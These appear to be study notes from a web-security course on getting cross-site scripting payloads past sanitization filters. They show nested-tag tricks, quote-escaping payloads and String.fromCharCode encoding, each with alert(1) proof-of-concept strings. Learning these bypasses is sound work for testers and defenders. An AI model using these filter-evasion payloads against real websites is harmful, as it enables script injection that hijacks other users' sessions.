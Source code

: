 






## Bypassing Sanitization

The most common is to HTML-encode such as:
```js
< (&lt;)
> (&gt;)
```

### String Manipulations
Example: 
```js
removing <script> tag
```

### Removing HTML tags
The check is not performed recursively:
```js
<scr<script>ipt>alert(1)</script> # this could be a bypass
```

If the filter performs recursive checks, we can still bypass. maybe changing the order of injected strings.
```js
<scr<iframe>ipt>alert(1)</script> //this could be a bypass
```

- it all depends on the filter that we are facing

→ moreover: https://els-cdn.content-api.ine.com/eda3ac9d-554a-469a-98c6-639c90f0c7a5/index.html#

### Escaping Quotes
- Filters place the backslash char **\** before quotes to escape that kind of character

Example:
```js
randomkey\' alert(1);  # escape the apostrophe
randomkey\\' alert(1); # escape the backslash
```

One of useful Javascript methods is:
```js
String.fromCharCode()
```

It allows us to generate strings starting from a sequence of Unicode values:
```js
String.fromCharCode(120,115,9416)

# u+0078 Latin Small Letter x
# u+0073 Latin small Letter s
# u+24C8 Circled Latin capital letter (S)
```
